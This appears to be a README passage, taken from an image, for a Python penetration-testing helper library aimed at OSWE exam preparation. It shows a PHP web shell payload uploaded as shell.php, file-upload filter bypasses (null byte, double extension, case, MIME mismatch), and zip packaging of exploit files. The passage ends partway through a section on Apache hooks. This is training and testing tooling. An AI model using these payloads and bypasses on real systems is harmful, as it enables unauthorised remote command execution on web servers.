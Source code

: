 ## File Upload (`utils/file_upload.py`)

Upload files with automatic bypass techniques:

```python
from utils.file_upload import FileUploader, quick_upload

# Quick upload with all bypasses
uploader = FileUploader("http://target/upload")
result = uploader.upload_with_bypass(
    "shell.php",
    b"<?php system($_GET['cmd']); ?>",
    techniques=["null_byte", "double_extension", "case_variation"]
)

# Simple upload
result = uploader.upload("shell.php", php_code)

# One-liner
quick_upload("http://target/upload", "shell.php", php_code)
```

**Available bypass techniques:**
- `null_byte`: filename.php%00.jpg
- `double_extension`: filename.jpg.php
- `case_variation`: filename.PHP
- `mime_mismatch`: Send PHP as image/jpeg

## Zip Utilities (`utils/zip_util.py`)

Create and extract zip files (with zip slip protection):

```python
from utils.zip_util import quick_zip, zip_multiple, extract_zip

# Quick zip (auto-detects file or folder)
quick_zip("payloads/", output="payloads.zip")

# Zip multiple files
zip_multiple(
    ["exploit.py", "shell.php", "config.json"],
    output_path="poc.zip"
)

# Extract safely (prevents zip slip)
extract_zip("archive.zip", extract_to="./extracted")
```

## Apache Hooks (`utils/apache_hooks.py`) - OSWE Fallback

**Use this if exam requires Apache2 instead of the built-in server.**

Same API as `server_hooks.py`, but reads from Apache access logs:

